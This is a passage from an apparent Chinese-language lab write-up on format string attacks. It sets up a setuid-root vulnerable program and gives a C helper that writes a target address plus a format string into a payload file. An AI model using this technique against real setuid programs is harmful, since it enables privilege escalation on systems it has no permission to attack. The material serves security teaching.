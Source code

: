 ```bash
gcc -o vul vul_prog.c
sudo chown root vul
sudo chmod 4755 vul
```

![image-20220321001834627](FormatString/image-20220321001834627.png)

该地址已经符合要求。 编写 write_string.c 程序，将上述地址赋值给 address 的前 4 个字节（17行）。

```c
/* write_string.c */

#include <sys/types.h>
#include <stdio.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

int main()
{
    char buf[1000];
    int fp, size;
    unsigned int *address;

    /* Putting any number you like at the beginning of the format string */
    address = (unsigned int *)buf;
    *address = 0x804b01c;

    /* Getting the rest of the format string */
    scanf("%s", buf + 4);
    size = strlen(buf + 4) + 4;
    printf("The string length is %d\n", size);

    /* Writing buf to "mystring" */
    fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
    if (fp != -1)
    {
        write(fp, buf, size);
        close(fp);
    }
    else
    {
        printf("Open failed!\n");
    }
}
```
